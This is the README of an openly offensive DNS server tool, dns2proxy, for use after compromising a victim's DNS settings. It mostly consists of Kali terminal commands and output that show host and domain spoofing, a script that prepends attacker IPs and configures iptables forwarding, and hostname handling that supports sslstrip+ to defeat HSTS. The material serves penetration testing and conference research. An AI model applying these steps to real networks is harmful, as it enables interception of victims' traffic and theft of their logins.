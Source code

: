 dns2proxy  
=========  
  
Offensive DNS server  
  
This tools offer a different features for post-explotation once you change the DNS server to a Victim.  
  
Feature 1  
---------  
  
Traditional DNS Spoof adding to the response the original IP address.  
  
Using spoof.cfg file:  
  
   hostname ip.ip.ip.ip  
  
>root@kali:~/dns2proxy# echo "www.s21sec.com 1.1.1.1" > spoof.cfg  
>  
>// launch in another terminal dns2proxy.py  
>  
>root@kali:~/dns2proxy# nslookup www.s21sec.com 127.0.0.1  
>Server:         127.0.0.1  
>Address:        127.0.0.1#53  
>  
>Name:   www.s21sec.com  
>Address: 1.1.1.1  
>Name:   www.s21sec.com  
>Address: 88.84.64.30  
  
  
or you can use dominios.cfg file to spoof all host of a same domain:  
  
>root@kali:~/demoBH/dns2proxy# cat dominios.cfg  
>.domain.com 192.168.1.1  
>  
>root@kali:~/demoBH/dns2proxy# nslookup aaaa.domain.com 127.0.0.1  
>Server:         127.0.0.1  
>Address:        127.0.0.1#53  
>  
>Name:   aaaa.domain.com  
>Address: 192.168.1.1  
 
Hostnames at nospoof.cfg will no be spoofed.  
  
Feature 2  
---------  
  
This feature implements the attack of DNS spoofing adding 2 IP address at the top of the resolution and configuring the system to forward the connections.  
Check my slides at BlackHat Asia 2014 [OFFENSIVE: EXPLOITING DNS SERVERS CHANGES] (http://www.slideshare.net/Fatuo__/offensive-exploiting-dns-servers-changes-blackhat-asia-2014) and the [Demo Video] (http://www.youtube.com/watch?v=cJtbxX1HS5I).    
  
To launch this attach there is a shellscript that automatically configure the system using IP tables. You must edit this file to adapt it to your system. DON´T FORGET AdminIP variable!!!!  
Both IPs must be at the same system to let dns2proxy.py configurate the forwarding  
  
Usage: ia.sh < interface > [ip1] [ip2]   
  
  
>root@kali:~/dns2proxy# ./ia.sh eth0 172.16.48.128 172.16.48.230  
>Non spoofing imap.gmail.com  
>Non spoofing mail.s21sec.com  
>Non spoofing www.google.com  
>Non spoofing www.apple.com  
>Non spoofing ccgenerals.ms19.gamespy.com  
>Non spoofing master.gamespy.com  
>Non spoofing gpcm.gamespy.com  
>Non spoofing launch.gamespyarcade.com  
>Non spoofing peerchat.gamespy.com  
>Non spoofing gamestats.gamespy.com  
>Specific host spoofing www.s21sec.com with 1.1.1.1  
>Specific domain IP .domain.com with 192.168.1.1  
>binded to UDP port 53.  
>waiting requests.  
>Starting sniffing in (eth0 = 172.16.48.128)....  
>  
>< at other terminal >  
>  
>root@kali:~/dns2proxy# nslookup www.microsoft.com 127.0.0.1  
>Server:         127.0.0.1  
>Address:        127.0.0.1#53  
>  
>Name:   www.microsoft.com  
>Address: 172.16.48.128  
>Name:   www.microsoft.com  
>Address: 172.16.48.230  
>Name:   www.microsoft.com  
>Address: 65.55.57.27  
  
  
The fhtang.sh script will terminate the program and restore normal iptables.  
  
Hostnames at nospoof.cfg will no be spoofed.  
  
  
Feature 3  
---------  
  
Automatically the dns server detects and correct the changes thats my sslstrip+ do to the hostnames to avoid HSTS, so will response properly.  
  
This server is necesary to make the sslstrip+ attack.  
  
>root@kali:~/dns2proxy# nslookup webaccounts.google.com 127.0.0.1    <-- DNS response like accounts.google.com  
>Server:         127.0.0.1  
>Address:        127.0.0.1#53  
>  
>Name:   webaccounts.google.com  
>Address: 172.16.48.128  
>Name:   webaccounts.google.com  
>Address: 172.16.48.230  
>Name:   webaccounts.google.com  
>Address: 74.125.200.84  
>  
>root@kali:~/dns2proxy# nslookup wwww.yahoo.com 127.0.0.1            <-- Take care of the 4 w! DNS response like  
>Server:         127.0.0.1                                                     www.yahoo.com  
>Address:        127.0.0.1#53  
>  
>Name:   wwww.yahoo.com  
>Address: 172.16.48.128  
>Name:   wwww.yahoo.com  
>Address: 172.16.48.230  
>Name:   wwww.yahoo.com  
>Address: 68.142.243.179  
>Name:   wwww.yahoo.com  
>Address: 68.180.206.184  
  
  
Instalation  
-----------  
  
Python 2.6 and dnspython (www.dnspython.com) is needed.  
